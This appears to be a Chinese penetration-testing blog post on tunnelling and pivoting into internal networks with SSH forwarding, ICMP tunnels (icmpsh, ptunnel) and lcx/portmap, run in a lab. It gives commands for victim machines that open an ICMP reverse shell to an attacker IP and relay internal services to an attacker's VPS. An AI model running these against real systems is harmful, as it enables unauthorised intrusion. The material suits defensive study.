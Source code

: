 ```yaml
---
layout:     post
title:      内网渗透 常用的隧道代理技术
subtitle:   简单整理一下工具的使用
date:       2020-10-21
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/background/post-代理技术.jpg
catalog: true
tags:
    - 渗透
---
```



### 1. ssh 隧道



#### 本地转发



假设存在 webserver与内网主机可以互通，攻击者可与webserver互通  但攻击者无法访问内网主机，且可以控制webserver 的ssh， 如下



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201025234228.png)





假设 攻击机无法与 192.168.190.128 不通（测试环境是通的 偷懒



`ssh -CfNg -L 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`

192.168.190.128 充当webserver 129充当内网主机

129上的服务如下

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201025234321.png)

`攻击者执行  ssh -CfNg -L 8888:192.168.190.129:80  diego@192.168.190.128`

* -C  压缩传输

* -f ssh后台传输不占用当前shell

* -N 建立连接，但看不到会话

* -g 允许远程主机连接本地用于转发端口

* -L 本地转发

![B9TKu6.png](https://s1.ax1x.com/2020/10/21/B9TKu6.png)



访问本地 8888端口

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCC8IA.png)





流量情况 (跳板机抓包分析)

总体流量

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCPky8.png)



下两图 可以看出 攻击者与webserver 是依靠ssh进行通信，而webserver 与 内网主机是正常通信

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCPFQf.png)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCPiSP.png)



#### 远程转发



将本地的端口流量转发到目标的端口上 与本地转发相反

`ssh -CfNg -R 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`



#### 动态转发

`ssh -CfNg -D 8888  跳板机用户名@跳板机地址`

设置socks代理



### 2. ICMP 隧道  

#### icmpsh

受害机 执行如下命令

`icmpsh.exe -t 攻击者ip -d 500 -b 30 -s 128`



![BpStPK.png](https://s1.ax1x.com/2020/10/20/BpStPK.png)



攻击机器

`sysctl -w net.ipv4.icmp_echo_ignore_all = 1`  关闭本地的icmp 以保证shell稳定性

`sudo python icmpsh_m.py  <source IP address> <destination IP address>`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpSU2D.png)



流量情况

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpSN8O.png)



#### ptunnel

下载 `wget http://www.cs.uit.no/\~daniels/PingTunnel/PingTunnel-0.72.tar.gz`

解压 `tar -xzvf PingTunnel-0.72.tar.gz`

安装依赖 `sudo apt install libpcap-dev`

安装 `sudo make && sudo make install`



**将内网的服务映射到vps的端口上**

拓扑同 ssh 



内网主机80端口存在如下服务


![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCL1Re.png)



在web服务上执行如下命令

`ptunnel -x diego`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCTpsx.png)



vps 上执行

`ptunnel -p web服务器ip -lp 映射到本地的端口  -da 内网主机ip -dp  内网服务端口 -x diego`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCbeSJ.png)



修改火狐的配置 

`network.security.ports.banned.override` 值为对应端口

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCLYqI.md.png)



访问本地的6000 端口

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCL3xH.png)

### 3. lcx 与 portmap 端口转发



下载地址 http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip





#### 本地端口转发



**windows**

绕过防火墙限制某些端口通信，可以转发到其他端口

情景如下 ,服务只绑定在127.0.0.1上 公网ip 无法访问到服务



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpWNbd.png)



仅本地可以访问

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpWaVA.png)



公网ip 无法访问

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpWtDH.png)



执行 `lcx.exe -tran 80 127.0.0.1 8080 ` 将端口转发到80

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpWYKe.md.png)





连接状态 ： **80绑定在0.0.0.0上** 因此局域网可以访问



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpfPqH.png)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpWGvD.png)





**linux 下**



`sudo ./portmap -m 1 -p1 81 -h2 127.0.0.1 -p2 80 `

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/B9RC28.png)](https://imgchr.com/i/B9RC28)

#### 远程端口转发



windows下：

受害机器

`lcx.exe -slave 公网ip  port  127.0.0.1 8080`

vps 上执行 `lcx.exe  -listen port  5555`

访问 vps:5555 即可访问到内网服务





**linux - liunx**：

受害主机

`./portmap -m 3 -h1 vpnip -p1 8007 -h2 127.0.0.1 -p2 80`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/B9sgPO.png)



自己的vps

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/B9sDq1.png)



受害内网服务

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/B9sya6.png)



被映射到自己vps 8008端口

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/B9ssVx.png)



**linux - windows**

受害着为**windows**时

windows 执行

`lcx.exe -slave 公网ip  port  127.0.0.1 80`

远程执行

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BPPt5d.md.png)

